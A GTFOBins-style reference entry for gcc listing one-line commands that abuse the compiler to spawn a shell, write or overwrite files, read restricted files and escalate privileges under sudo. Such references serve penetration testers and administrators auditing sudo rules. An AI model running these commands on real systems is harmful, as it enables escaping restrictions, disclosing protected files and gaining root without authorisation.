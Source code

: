 # GTFOBin: gcc

## Shell

It can be used to break out from restricted environments by spawning an interactive system shell.

```
gcc -wrapper /bin/sh,-s .
```

## File write

It writes data to files, it may be used to do privileged writes or write files outside a restricted file system.

```
LFILE=file_to_delete
gcc -xc /dev/null -o $LFILE
```

## File read

It reads data from files, it may be used to do privileged reads or disclose files outside a restricted file system.

```
LFILE=file_to_read
gcc -x c -E "$LFILE"
```

The file is read and parsed as a list of files (one per line), the content is disaplyed as error messages, thus this might not be suitable to read arbitrary data.

```
LFILE=file_to_read
gcc @"$LFILE"
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
sudo gcc -wrapper /bin/sh,-s .
```